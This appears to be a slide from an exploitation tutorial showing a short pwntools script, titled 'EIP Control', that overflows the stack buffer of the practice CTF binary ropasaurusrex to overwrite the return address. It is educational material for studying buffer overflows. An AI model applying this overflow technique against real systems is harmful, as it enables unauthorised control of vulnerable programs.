

# EIP Control
from pwn import *

context(arch='i386', os='linux', endian='little', log_level='debug')
elf = ELF('./ropasaurusrex')

p = process(elf.path)
print '[+] PID: %s' % proc.pidof(p)

payload = 'A' * (0x88 + 4) + 'BBBB'
p.send(payload)

p.interactive()